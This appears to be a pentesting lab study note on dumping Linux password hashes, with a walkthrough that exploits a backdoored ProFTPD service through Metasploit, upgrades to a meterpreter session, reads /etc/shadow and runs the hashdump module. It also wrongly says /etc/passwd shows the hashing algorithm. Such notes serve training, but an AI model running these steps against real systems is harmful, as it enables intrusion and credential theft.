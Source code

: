 # Dumping Linux Passwort Hashes


## Linux Password Hashes
- Linux has multi-user support and as a result, multiple users can access the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.
- All of the information for all accounts on Linux is stored in the passwd file located in /etc/passwd
- We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the systen.
- All the encrypted passwords for the users are stored in the shadow file. It can be found in the following directory: /etc/shadow
- The shadow file can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.

  - The passwd file gives us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol ($)

![image](https://github.com/user-attachments/assets/e49a471f-b98a-4efb-82d5-f2b74c1a8789)

## Demo: Linux Password Hashes

We first exploit the target:

`ifconfig, eth1`

`nmap -sV 192.209.144.3`

We check if this version of proftpd is vulnerable to a exploit:

`searchsploit PROFTPD`

We got a Backdoor Command Execution module

`service postgresql start && msfconsole`

`setg rhosts 192.209.144.3`

`search proftpd`

We want the proftpd_133c_backdoor:

use [module name]

`show options`

`exploit`

We get a command shell session:

`/bin/bash -i`

`id`

We put this session in the background: CTRL + Z

`yes`

`sessions`

We upgrade our session to a meterpreter session:

`sessions -u 1`

we get a error, but thats fine

`sessions`

`sysinfo`

`getuid`

We have successfully obtained a meterpreter session.

`cat etc/shadow/`

Another technique is the metasploit hashdump module.

CTRL + Z to put the session in the background

`search hashdump`

We copy post/linux/gather/hashdump

`use post/linux/gather/hashdump`

`set SESSION 2` (our meterpreter session)

`run`

This will get the user accs that have passwords and gives us the hashed passwords and saves them. 



